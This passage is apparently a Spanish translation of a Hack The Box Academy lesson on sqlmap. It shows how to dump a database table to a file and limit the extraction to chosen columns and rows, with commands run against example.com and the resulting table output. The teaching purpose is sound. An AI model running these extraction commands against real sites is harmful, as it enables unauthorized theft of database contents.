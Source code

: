 La salida de la consola muestra que la tabla se descarta en formato CSV formateado a un archivo local,`users.csv`.

Consejo: aparte del CSV predeterminado, podemos especificar el formato de salida con la opción `--Dump-format` a HTML o SQLite, para que luego podamos investigar más a fondo el DB en un entorno SQLite.

![](https://academy.hackthebox.com/storage/modules/58/pVBXxRz.png)

---

# **Enumeración de tabla/fila**

Al tratar con tablas grandes con muchas columnas y/o filas, podemos especificar las columnas (por ejemplo, solo`name`y`surname`columnas) con el`-C`Opción, como sigue:

Enumeración de la base de datos

```
xnoxos@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname...SNIP...
Database: testdb

Table: users
[4 entries]
+--------+------------+
| name   | surname    |
+--------+------------+
| luther | blisset    |
| fluffy | bunny      |
| wu     | ming       |
| NULL   | nameisnull |
+--------+------------+

```

Para reducir las filas en función de sus números ordinales dentro de la tabla, podemos especificar las filas con el`--start`y`--stop`Opciones (por ejemplo, comenzar desde la segunda hasta la tercera entrada), como sigue:

Enumeración de la base de datos

```
xnoxos@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3...SNIP...
Database: testdb

Table: users
[2 entries]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
| 3  | wu     | ming    |
+----+--------+---------+

```

---
